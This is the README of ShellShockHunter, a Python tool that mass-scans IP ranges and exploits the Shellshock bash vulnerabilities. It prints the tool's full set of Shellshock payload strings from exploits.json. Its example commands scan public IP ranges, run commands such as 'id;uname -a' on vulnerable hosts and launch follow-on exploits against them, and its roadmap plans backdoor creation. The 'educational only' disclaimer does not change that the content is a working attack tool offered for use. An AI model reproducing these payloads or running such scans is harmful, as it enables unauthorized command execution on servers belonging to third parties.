




<p align="center">
<a href="https://github.com/MrCl0wnLab/ShellShockHunter/">
  
</a>
</p>
<h1 align="center">
  ShellShockHunter v1.0
</h1>

<p align="center">
  It's a simple tool for test vulnerability shellshock
<br/><br/>
  

  


</p>

```
Autor:    MrCl0wn
Blog:     http://blog.mrcl0wn.com
GitHub:   https://github.com/MrCl0wnLab
Twitter:  https://twitter.com/MrCl0wnLab
Email:    mrcl0wnlab\@\gmail.com
```

### Shellshock (software bug)
Shellshock, also known as Bashdoor, is a family of security bugs in the Unix 
Bash shell, the first of which was disclosed on 24 September 2014. Shellshock 
could enable an attacker to cause Bash to execute arbitrary commands and 
gain unauthorized access to many Internet-facing services, such as web servers,
that use Bash to process requests.


### Disclaimer
This or previous program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that me (***MrCl0wnLab***) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not ***MrCl0wnLab's*** responsibility.


### Installation
> Use the package manager [pip](https://pip.pypa.io/en/stable/)

### Pip

```
pip install shodan
pip install ipinfo
```
### Help

```
python main.py --help

usage: tool [-h] [--file <ips.txt>] [--range <ip-start>,<ip-end>] [--cmd-cgi <command shell>] [--exec-vuln <command shell>] [--thread <10>] [--check] [--ssl] [--cgi-file <cgi.txt>] [--timeout <5>] [--all] [--debug]

optional arguments:
  -h, --help        show this help message and exit
  --file <ips.txt>  File targets
  --range <ip-start>,<ip-end>
                    Range IP Ex: 192.168.15.1,192.168.15.100
  --cmd-cgi <command shell>
                    Command: uname -a
  --exec-vuln <command shell>
                    Executing commands on vulnerable targets
  --thread <10>, -t <10>
                    Eg. 20
  --check           Checker vuln
  --ssl             Set protocol https
  --cgi-file <cgi.txt>
                    Set file cgi
  --timeout <5>     Set timeout conection
  --all             Teste all payloads
  --debug           Set debugs
```

### Command e.g:
```
python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 10 --ssl --cgi-file 'wordlist/cgi.txt'

python main.py --range '194.206.187.X,194.206.187.XXX' --cmd 'id;uname -a' --thread 10 --ssl --cgi-file 'wordlist/cgi.txt'

python main.py --file targets.txt --cmd 'id;uname -a' --thread 10 --ssl --cgi-file 'wordlist/cgi.txt'

python main.py --file targets.txt --cmd 'id;uname -a' --thread 10 --ssl --cgi-file 'wordlist/cgi.txt' --all

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl --cgi-file 'wordlist/cgi2.txt' --exec-vuln 'curl -v -k -i "_TARGET_"'

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl --cgi-file 'wordlist/cgi2.txt' --exec-vuln './exploit -t "_TARGET_"'
```
### Prints:
#### START

#### PROCESS

#### EXPECIAL COMMAND ( --exec-vuln 'echo ```"_TARGET_"```' )


### Source file ( Exploits )
>pwd: assets/exploits.json
```json
{
    "DEFAULT":
        "() { :; }; echo ; /bin/bash -c '_COMMAND_'",
    "CVE-2014-6271": 
        "() { :; }; echo _CHECKER_; /bin/bash -c '_COMMAND_'",
    "CVE-2014-6271-2":
        "() { :;}; echo '_CHECKER_' 'BASH_FUNC_x()=() { :;}; echo _CHECKER_' bash -c 'echo _COMMAND_'",
    "CVE-2014-6271-3":
        "() { :; }; echo ; /bin/bash -c '_COMMAND_';echo _CHECKER_;",
    "CVE-2014-7169":
        "() { (a)=>\\' /bin/bash -c 'echo _CHECKER_'; cat echo",
    "CVE-2014-7186":
        "/bin/bash -c 'true <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF <<EOF' || echo '_CHECKER_, redir_stack'",
    "CVE-2014-7187":
        "(for x in {1..200} ; do echo \"for x$x in ; do :\"; done; for x in {1..200} ; do echo done ; done) | /bin/bash || echo '_CHECKER_, word_lineno'",
    "CVE-2014-6278":
        "() { _; } >_[$($())] { echo _CHECKER_; id; } /bin/bash -c '_COMMAND_'",
    "CVE-2014-6278-2":    
        "shellshocker='() { echo _CHECKER_; }' bash -c shellshocker",
    "CVE-2014-6277":
        "() { x() { _; }; x() { _; } <<a; } /bin/bash -c _COMMAND_;echo _CHECKER_",
    "CVE-2014-*":
        "() { }; echo _CHECKER_' /bin/bash -c '_COMMAND_'"
}
```
### Source file ( Config )
>pwd: assets/config.json
```json
{
    "config": {
        "threads": 10,
        "path": {
            "path_output": "output/",
            "path_wordlist": "wordlist/",
            "path_modules": "modules/",
            "path_assets": "assets/"
        },
        "files_assets":{
            "config": "assets/config.json",
            "autor": "assets/autor.json",
            "exploits": "assets/exploits.json"
        },
        "api":{
            "shodan":"",
            "ipinfo":""
        }
    }
}
```
### Tree

```bash
├── assets
│   ├── autor.json
│   ├── config.json
│   ├── exploits.json
│   └── prints
│       ├── banner.png
│       ├── print01.png
│       ├── print02.png
│       └── print03.png
├── main.py
├── modules
│   ├── banner_shock.py
│   ├── color_shock.py
│   ├── file_shock.py
│   ├── __init__.py
│   ├── request_shock.py
│   ├── shodan_shock.py
│   └── thread_shock.py
├── output
│   └── vuln.txt
├── README.md
└── wordlist
    └── cgi.txt
```

### Ref
- https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf
- https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29#CVE-2014-7186_and_CVE-2014-7187_Details
- https://blog.inurl.com.br/search?q=shellshock
- https://github.com/googleinurl/Xpl-SHELLSHOCK-Ch3ck/blob/master/xplSHELLSHOCK.php
- https://github.com/chelseakomlo/shellshock_demo
- https://github.com/xdistro/ShellShock/blob/master/shellshock_test.sh
- https://github.com/capture0x/XSHOCK/blob/master/main.py
- https://lcamtuf.blogspot.com/2014/10/bash-bug-how-we-finally-cracked.html
- https://blog.sucuri.net/2014/09/bash-vulnerability-shell-shock-thousands-of-cpanel-sites-are-high-risk.html
- https://github.com/BuddhaLabs/PacketStorm-Exploits/blob/master/1410-exploits/apachemodcgi-shellshock.txt
- https://github.com/gajos112/OSCP/blob/master/Shellshock.txt
- https://dl.packetstormsecurity.net/1606-exploits/sunsecuregdog-shellshock.txt
- http://stuff.ipsecs.com/files/ucs-shellshock_pl.txt
- https://github.com/opsxcq/exploit-CVE-2014-6271
- https://en.wikipedia.org/wiki/Shellshock_%28software_bug%29#CVE-2014-7186_and_CVE-2014-7187_Details
- https://manualdousuario.net/shellshock-bash-falha/
- https://darrenmartyn.ie/2021/01/24/visualdoor-sonicwall-ssl-vpn-exploit


### Roadmap
I started this project to study a little more python and interact more with APIS like shodan and ipinfo.
* [x] Command line structure
* [x] Banner
* [x] File management class
* [x] HttpRequests management class
* [x] Thread management class
* [x] Source file for exploits
* [x] Color in process
* [x] Shell Exec on vulnerable targets
* [ ] Process debug
* [ ] Integration with ipinfo api
* [ ] Integration with ipinfo api
* [ ] Integration with telegram api
* [ ] Backdoor creation
* [ ] Visual filter
* [ ] Header manipulation